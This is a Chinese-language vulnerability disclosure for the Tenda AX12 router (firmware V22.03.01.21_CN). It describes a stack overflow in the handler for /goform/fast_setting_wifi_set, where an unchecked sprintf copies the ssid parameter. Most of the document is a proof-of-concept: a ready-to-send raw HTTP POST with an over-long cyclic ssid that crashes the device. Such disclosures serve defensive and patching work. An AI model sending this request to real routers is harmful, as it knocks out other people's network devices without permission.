

# 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

这是一个存在于`sub_4335C0`函数中的栈溢出漏洞，该函数处理/goform/fast_setting_wifi_set页面下的post请求

该函数使用sprintf+"%s"来将v2输入到栈上，但是没有任何的安全检测



而v2来源于http数据包的ssid参数，可有攻击者随意控制


由此，攻击者可通过一串长的ssid，触发栈溢出，实现拒绝服务攻击

# POC

```
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: tendawifi.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1083
Connection: close
Referer: http://tendawifi.com/index.html

ssid=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak&wrlPassword=&power=high&timeZone=%2B08%3A00&loginPwd=
```

